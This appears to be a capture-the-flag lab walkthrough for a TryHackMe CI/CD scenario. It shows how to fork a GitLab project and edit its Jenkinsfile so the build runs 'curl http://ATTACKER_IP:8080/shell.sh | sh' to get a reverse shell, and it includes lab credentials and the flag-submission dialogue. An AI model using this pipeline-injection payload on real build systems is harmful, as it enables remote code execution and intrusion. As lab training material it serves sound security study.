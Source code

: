 **Run Jenkins job to get a reverse shell**

* Go to http://gitlab.tryhackme.loc
* Register
* Go to http://gitlab.tryhackme.loc/ash/Merge-Test
* Fork
* Edit `Jenkinsfile` (replacing `ATTACKER_IP`):
```
pipeline {
  agent any
  stages {
    stage('build') {
      steps {
	    sh 'curl http://ATTACKER_IP:8080/shell.sh | sh'
	  }
    }
  }
}
```
* Commit changes
* Create merge request from your branch into ash/Merge-Test main branch
* You can go to http://jenkins.tryhackme.loc:8080 to see the job execution (user `jenkins` and password `jenkins`)
* You can repeat the steps just creating a new branch and starting over

Once you have the reverse shell you can continue to next section.

**Authenticate to Mother and follow the process to claim Flag 1. What is Flag 1?**

* Submit proof of compromise to **mother** from the AttackBox:
```shell
ssh mother@10.200.6.250
(password is `motherknowsbest`)

Please make a selection:
[1] Register
[2] Authenticate
[3] Exit
Selection:2
Please provide your username: myuser
Please provide your password: xxxxxxxxxxxxxxxx

Welcome myuser

What would you like to do?
Please select an option
[1] Submit proof of compromise
[2] Verify past compromises
[3] Exit
Selection:1
Please select which flag you would like to submit proof for:
[1]	Build Process Compromise
[2]	Build Server Compromise
[3]	Build Pipeline Compromise
[4]	DEV Environment Compromise
[5]	PROD Environment Compromise
[100]	Exit
Selection:1
Please provide the hostname of the host you have compromised (please use the name provided in your network diagram): JAgent

In order to verify your access, please complete the following steps.
1. On the jagent host, navigate to the /flag/ directory
2. Create a text file with this name: myuser.txt
3. Add the following UUID to the first line of the file: xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx
4. Click proceed for the verification to occur
```
